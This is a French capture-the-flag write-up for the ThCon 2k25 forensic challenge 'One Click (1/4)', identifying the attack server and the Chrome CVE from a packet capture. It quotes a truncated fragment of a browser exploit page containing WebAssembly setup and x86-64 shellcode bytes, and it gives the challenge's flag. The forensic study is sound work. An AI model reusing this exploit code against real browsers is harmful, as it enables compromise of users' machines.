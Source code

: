 ```yaml
---
title: "ThCon 2k25 : ne Click (1/4) | Forensic"
date: 2025-04-13
draft: false
categories: ["Forensic"]
ctf: "ThCon 2k25"
challenge: "ne Click (1/4)"
author: "Reyko"
---
```


## WU - One Click (1/4)   - Forensic - ThCon 2k25

### Contexte :

#### Nom :
One Click (1/4)

#### Enoncé :
S.N.A.F.U's leader, Axel Vaughn, has recently noticed slowdowns and unusual behavior on his personal computer. He fears that his computer may have been compromised. He is, however, careful about his internet browsing and claims not to have downloaded anything suspicious.

Axel provided us with a network capture that was made in his local network. Your mission is to investigate this potential attack and assess the extent of the damage.

If you identify something, retrieve the IPv4 address and port of the server used to deliver the attack, as well as the CVE number of the vulnerability exploited.

Flag format example: THC{1.2.3.4:5678-CVE-XXXX-YYYYY}

#### Ressource :

- capture.pcapng

### Solve :

Technique de flemmard :
"Effortless PCAP File Analysis in Your Browser" : https://apackets.com/

On upload simplement le fichier dans le tool, puis on voit rapidement des flux http contenant :

```
GET /signin.html HTTP/1.1
Host: 8000
Accept:  text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding:  gzip, deflate
Accept-Language:  en-US,en;q=0.9
Connection:  keep-alive
If-Modified-Since: 52 GMT
Purpose:  prefetch
Upgrade-Insecure-Requests:  1
User-Agent:  Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36

HTTP/1.0 200 OK
Connection: close
Content-Length: 4856
Content-Type: text/html
Date:16 GMT
Last-Modified:59 GMT
Server: SimpleHTTP/0.6 Python/3.10.12

<html>
<head>
<title>S.N.A.F.U - Admin Panel</title>
<script>
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var wasm_main_func = wasm_instance.exports.main;

var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);


var shellcode = new Uint8Array([0xe8,0x5a,0x0,0x0,0x0,0xc3,0x48,0xc7,0xc0,0x39,0x0,0x0,0x0,0xf,0x5,0xc3,0x48,0xc7,0xc0,0x3b,0x0,0x0,0x0,0xf,0x5,0xc3,0x48,0xc7,0xc0,0x2,0x0,0x0,0x0,0xf,0x5,0xc3,0x48,0xc7,0xc0,0x0,0x0,0x0,0x0,0xf,0x5,0xc3,0x48,0xc7,0xc0,0x1,0x0,0x0,0x0,0xf,0x5,0xc3,0x48,0xc7,0xc0,0x3,0x0,0x0,0x0,0xf,0x5,0xc3,0x48,0xc7,0xc0,0x3c,0x0,0x0,0x0,0xf,0
```

provenant de l'ip :
192.168.1.86:8000

Avec un peut "d'osint" en se basant sur le shellcode et le schéma d'attaque on tombe directement avec une recherche google dorker sur la CVE : CVE-2021-21220

Flag : THC{192.168.1.86:8000-CVE-2021-21220}
